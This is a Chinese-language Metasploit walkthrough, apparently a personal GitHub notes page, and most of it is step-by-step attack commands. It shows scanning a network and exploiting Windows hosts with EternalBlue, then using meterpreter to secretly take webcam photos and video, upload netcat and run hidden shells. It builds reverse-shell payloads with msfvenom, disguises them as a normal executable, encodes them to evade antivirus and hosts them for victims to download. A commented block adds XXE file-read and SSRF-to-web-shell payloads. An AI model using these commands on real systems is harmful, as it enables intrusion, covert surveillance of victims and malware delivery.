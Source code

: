 <!---
```diff
+ green color text
- red color text
```
-->

+ 進入metasploit
  - msfdb init : 初始化數據庫 (若沒執行這行，連接數據庫會有問題)
  - msfconsole : 啟動
  - workspace : 當前工作區
  - db_status :　是否成功連接到數據庫
  - workspace -a meow :　另創一個數據庫meow
  - ? : 通過?查看當前工作區可以使用的指令
  
![image](https://user-images.githubusercontent.com/96654161/170452994-0fe2ddb7-384f-4459-ac3f-a124c83b3922.png)

+ 信息蒐集 -> 內網主機發現
  - db_nmap : nmap掃描
    - -PA : TCP ACK PING掃描
    - -PS : TCP SYN PING掃描
    - -PR : ARP掃描nmap對目標進行arp ping掃描的過程，尤其在內網的情況下。因為防火牆不會禁止ARP請求
    - hosts : 列出當前工作區所有主機
    
  - 1.ifconfig 查看當前哪些主機存活
  - 2.db_nmap -PR IP/24
  
![image](https://user-images.githubusercontent.com/96654161/170454550-ace64ee5-bc5b-441c-9a1f-336568b2abd2.png)

     -T[0-5] : 莫認為T3、T4表示最大TCP掃描延遲為10ms
     sS : TCP SYN掃描
     sA : TCP ACK掃描
     sY : TCP SYN掃描
     A : 打開操作系統探測和版本探測
 
  - db_nmap -sS -A -T4 192.168.xx.x
![image](https://user-images.githubusercontent.com/96654161/170462660-3b86cb80-6cd1-4b8b-845f-fccd63797fb7.png)

  - db_nmap --script=vuln IP
    - script=vuln : 檢查是否具有常見漏洞
![image](https://user-images.githubusercontent.com/96654161/170464782-26acc2ae-f016-4e50-a663-93dcd80ac177.png)
>這裡找到ms17_010

+ auxiliary 模塊
  - search ms17_010
 
![image](https://user-images.githubusercontent.com/96654161/170476395-67b42a48-a313-4595-aaac-7a59570dcdbd.png)
>這裡看到第三項，描述的是for win8，但在前面掃描OS是win7所以不適用

  - info auxiliary/scanner/smb/smb_ms17_010

![image](https://user-images.githubusercontent.com/96654161/170468777-31bd8a4c-e86d-4584-a37c-e2f938d267c9.png)

  - use auxiliary/scanner/smb/smb_ms17_010 #要使用某模塊都用 use modules
  - options 查看設置 ->required 如果是yes就必須要配置
![image](https://user-images.githubusercontent.com/96654161/170471161-04096171-0096-4c96-92e6-fc5cc911859c.png)

  - set RHOSTS 掃描主機IP
  - run / exploit 執行
![image](https://user-images.githubusercontent.com/96654161/170472589-93bc1135-7785-47a5-b28e-c4e3d361b9fe.png)

+ use exploit/windows/smb/ms17_010_eternalblue
+ options
+ set rhosts ip
+ show targets
+ run

![image](https://user-images.githubusercontent.com/96654161/170538076-6daa23d6-324e-4a85-af13-0ba5bc71738e.png)
![image](https://user-images.githubusercontent.com/96654161/170542273-10a4a4fb-3675-4f8a-a251-9986197e8170.png)
![image](https://user-images.githubusercontent.com/96654161/170542834-39ae3629-4501-4b9b-8d89-03b2771d5806.png)

>sessions[-l] : 列出當前所有session
>sessions[-i]id:進入某個session
>background : 把當前shell放到後台去執行，然後返回到MSF中

![image](https://user-images.githubusercontent.com/96654161/170543869-79dae501-522f-4151-80f5-8cb957994134.png)

```diff
show exploits -> 查看所有可用的滲透攻擊程序代碼 
show auxiliary -> 查看所有可用的輔助攻擊工具
[show]options/advanced -> 查看該模塊可用選項
show payloads -> 查看該模塊適用的所有載荷代碼
show targets -> 查看該模塊適用的攻擊目標類型
search -> 根據關鍵字搜索某模塊
info -> 顯示某模塊的詳細信息
use -> 使用某滲透攻擊模塊
back -> 回退
set/unset -> 設置/禁用模塊中的某個參數
setg/unsetg -> 設置/禁用適用於所有模塊的全局參數
save -> 將當前設置值保存下來，以便下次啟動MSF終端時仍可使用
```
### 開啟攝像頭

+ sessions -u id : 將某個session轉為meterpreter
+ 由shell轉meterpreter 

![image](https://user-images.githubusercontent.com/96654161/170551298-5e7490c3-eedf-4547-8adb-2a0e2f713a98.png)

+ sessions -i id
+ ? (查看當前可以使用的命令)
![image](https://user-images.githubusercontent.com/96654161/170551366-390beaf3-9fec-4584-bd8d-3e76906cdc2b.png)
![image](https://user-images.githubusercontent.com/96654161/170551422-770a6fbc-db10-471f-940b-972ef34aadc1.png)
![image](https://user-images.githubusercontent.com/96654161/170551811-67a65e65-2925-4c1d-b39e-57b99f996055.png)
![image](https://user-images.githubusercontent.com/96654161/170551958-4c27c0c4-ab7a-4d03-a48f-c869a391b668.png)

+ webcam_list : 查看攝像頭 列出對方的攝像頭
+ webcam_snap : 通過攝像頭拍照 
+ webcam_stream : 通過攝像頭開啟視頻
![image](https://user-images.githubusercontent.com/96654161/170553668-bd7808e9-d768-4aa3-872c-83e8392e8c40.png)

+ upload : 上傳本地文件到目標機器
+ upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32

![image](https://user-images.githubusercontent.com/96654161/170554858-4d4c5e79-b402-43b8-b659-505b5fd1a45c.png)


+ execute -H -i -f cmd.exe
+ execute : 再目標機器執行文件，創建新process cmd.exe,-H不可見,-i交互

![image](https://user-images.githubusercontent.com/96654161/170554951-c24df2ab-ee80-46f1-9967-8fca0d3619d4.png)
>上傳後執行

### msfvenom

+ msfvenom是msfpayload和msfencode的組合，將這兩工具集成在一個框架實例中
+ 用來生成後門的軟件，在目標機上執行後門，在本地監聽上線

```diff
-p : --payload,指定特定的payload 如果被設置為 - 那麼從標準輸入流中讀取,幾乎支援所有系統平台
-l : --list 列出所有可用的項目 其中值可以被設置為 payload,encoders,nops,all
-n : --nopsled 指定nop在payload中的數量
-f : --format 指定payload的輸出格式(.exe、.sh..)(--list formats : 列出所有可用的輸出格式)
-e : --encoder，指定使用的encoder
-a : --arch 指定目標系統架構
--platform : 指定目標系統平台
-s : --space 設置未經編碼的payload最大長度(--encoder-space:編碼後的payload的最大長度)
-b : --bad-chars 設置需要在payload中避免出現的字符 EX:'\0f'、'\x00'
-i : iterations 設置payload的編碼次數
--smallest : 盡可能生成最短payload
-o : --out 保存payload文件
-c : --add-code 指定一個附加的win32 shellcode 文件
-x : --template 指定一個特定的可執行文件作為模板
-k : --keep 保護模板程序的功能 注入payload作為一個新的進程運行
```

+ linux **(LHOST 跟 LPORT 是對當前選擇的payload設置要回連的地址及端口去做設置)**
  + msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=<Port to connect ON> -f elf > shell.elf  (反向連接模塊 目標主機主動來連本地主機)
  + msfvenom -p linux/x86/meterpreter/bind_tcp LHOST=<Target IP Address> LPORT=<Port to connect ON> -f elf > shell.elf (本地主機主動連接目標主機)

+ windows
  + msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=<Port to connect ON> -f exe > shell.exe 
  + msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.xx.xxx LPORT=xxxx -x /root/Desktop/StampRemover.exe -e x86/shikata_ga_nai -f exe -o /var/www/html/heello.exe

 **x86/shikata_ga_nai:等級為excellent ; 解碼跟編碼過程都是隨機生成的** 
![image](https://user-images.githubusercontent.com/96654161/170610208-3347eff2-359e-48c9-a9e3-04a5f46a2e81.png)
> 看到 cmd/powershell_base64   excellent  Powershell Base64 Command Encoder
> x86/shikata_ga_nai      excellent  Polymorphic XOR Additive Feedback En
>只有這兩個encoder是excellent

>-x /root/Desktop/StampRemover.exe 如果沒指定模板文件，預設執行檔icon會是一般的執行檔樣式，有指定模板文件的話，除了icon會一樣，文件大小也會差不多，較能成功偽裝正常文件。/root/Desktop/StampRemover.exe是模板文件位置
>![image](https://user-images.githubusercontent.com/96654161/170607393-4a3fb9da-cd0e-4b5b-9a98-1816ff65b26e.png)

  
![image](https://user-images.githubusercontent.com/96654161/170606643-4847649d-a271-4b68-b3f1-671803cfb893.png)
  
>通常存到/var/www/html底下，外部機器想要下載的話，需要用service apache2 start
>![image](https://user-images.githubusercontent.com/96654161/170607020-c3911031-6915-41b8-997b-df410fe232c0.png)

  
+ 在被攻擊機器上下載好payload後，在本地msfconsole測試是否可成功回連
  + use exploit/multi/handler 該模塊是一個有效負載處理程序，他只處理在受損主機中執行的有效負載連接
  + options
  + set payload windows/meterpreter/reverse_tcp (這裡設置的payload要跟msfvenom設置的payload一樣)
 ![image](https://user-images.githubusercontent.com/96654161/170608676-f9d6480f-749e-4088-a9d1-18580305043f.png)
  + options 
  + set lhosts ip address(這裡的ip要跟msfvenom設置的一樣)
  + set lport port(這裡的port要跟msfvenom設置的一樣)
  + run
![image](https://user-images.githubusercontent.com/96654161/170609024-8da25c58-3b6b-4f84-9b3a-3fcecc249ac0.png)
  
>運行成功的話，會在被攻擊機上成功執行該payload，可以在工作管理員查看
  ![image](https://user-images.githubusercontent.com/96654161/170609271-ac65f0d2-90f1-4b8d-8fdd-b4045ecc8af6.png)


  
  
  
  
 

+ mac
  + msfvenom -p osx/x86/shell_reverse_tcp LHOST=<IP Address> LPORT=<Port to connect ON> -f macho > shell.macho
  
  

<!---
XXE 
<!DOCTYPE kaibro[
       <!ENTITY xxe SYSTEM "file:///etc/passwd">
     ]>
     <root>&xxe;</root>
     
 SSRF gopher     
 gopher://localhost:6379/_FLUSHALL%0d%0aSET%20kaibro%20"<%3F=system($_GET[1]);%3F>"%0d%0aCONFIG%20SET%20DIR%20/www/%0d%0aCONFIG%20SET%20DBFILENAME%20ggininder123.php%0d%0aSAVE%0d%0aQUIT

-->
